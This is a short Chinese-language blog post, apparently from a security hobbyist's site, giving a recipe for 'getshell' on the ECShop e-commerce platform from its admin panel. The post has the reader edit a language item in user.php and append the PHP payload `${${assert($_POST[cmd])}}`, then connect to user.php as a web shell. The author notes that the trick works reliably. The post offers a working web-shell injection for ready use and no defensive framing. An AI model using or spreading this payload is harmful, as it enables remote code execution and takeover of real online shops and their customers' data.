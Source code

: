 ```yaml
---
title: "ecshop 后台 getshell"
date: 2018-01-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



ecshop 后台 getshell

<!--more-->

模板管理 - 语言项编辑

下拉栏选择 user.php 搜索 用户信息

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/07/1515297913.jpg)

后面加上代码

`${${assert($_POST[cmd])}}`

确认修改

连接 根目录下 user.php

屡试不爽